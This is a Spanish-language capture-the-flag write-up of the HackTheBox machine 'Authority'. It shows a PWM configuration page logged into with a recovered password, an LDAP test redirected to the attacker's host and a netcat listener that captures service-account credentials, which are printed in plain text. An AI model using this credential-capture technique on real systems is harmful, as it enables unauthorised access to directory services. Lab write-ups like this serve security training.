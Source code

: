 

## Explotación
Teniendo toda está información vamos a intentar ingresar al sistema, para ello primero vamos a probar en la página web del puerto `8443`.  En el login inicial se colocó el usuario `svc_pwm` y el password `pWm_@dm!N_!23`; dando como resultado un error, donde se indica que el directorio está inhabilitado, por lo tanto, no es posible ingresar por acá.  
![Desktop View](/writeup-htb-authority/login2.png)
_Login_
![Desktop View](/writeup-htb-authority/error.png)
_Error_
Sin embargo, en la página `Configuration Manager` hay un campo para ingresar password. Colocamos el valor de `pWm_@dm!N_!23`.  
![Desktop View](/writeup-htb-authority/configuration manager.png)
_Configuration manager_
Y bingo, conseguimos loguearse.  
![Desktop View](/writeup-htb-authority/login correcto.png)
_Configuration manager_
Comenzamos a ver cada una de las opciones de la página en busca de algo que nos ayude a ingresar al sistema.  
Encontramos la opción configuration editor, la cual nos lleva a otra página donde se puede manipular las configuraciones.  
![Desktop View](/writeup-htb-authority/config editor.png)
_Configuration editor_
Visualizamos cada una de las opciones y  cuando desplegamos `LDAP`, `LDAP directories`, `defualt` y `conecction`, encontramos algo muy interesante. 
> Se puede agregar una conexión de LDAP y luego testear, por lo tanto, podemos indicarle que apunte a un puerto de nuestra máquina y ver los datos que envían. Según las opciones que se logran observar lo que enviará será el `LDAP Proxy User`y el `LDAP Proxy Password`.
{: .prompt-tip }
- Agregamos la ldap url, donde colocamos `ldap://nuestraIp:nuestroPuerto`.  
![Desktop View](/writeup-htb-authority/ldap.png)
_Ldap url_
- Luego en una shell colocamos nuestro puerto en escucha.
```bash
nc -lvnp 3222 
```
- Por último damos click en `Test LDAP profile`.  
![Desktop View](/writeup-htb-authority/test ldap.png)
_Test LDAP profile_
Al shell llegaron los datos del `LDAP Proxy User`y el `LDAP Proxy Password`. En donde vemos que el usuario es `svc_ldap` y el password `lDaP_1n_th3_cle4r!`.  
![Desktop View](/writeup-htb-authority/shell.png)
_nc_


### Ingreso al sistema para obtener el flag del usuario
El usuario encontrado debe de tener estar registrado en el servidor Windows, por lo tanto, vamos a conectarse por medio de `WinRM`, para ello utilizamos la herramienta `evil-winrm`.
>Evil-WinRM es una herramienta de prueba de penetración que se utiliza para obtener acceso remoto no autorizado a sistemas Windows a través del protocolo WinRM (Windows Remote Management). WinRM es el protocolo de administración remota en Windows que permite a los administradores controlar las máquinas de forma remota utilizando el Protocolo de Transferencia de Estado Representacional (REST) sobre HTTP.
{: .prompt-info }
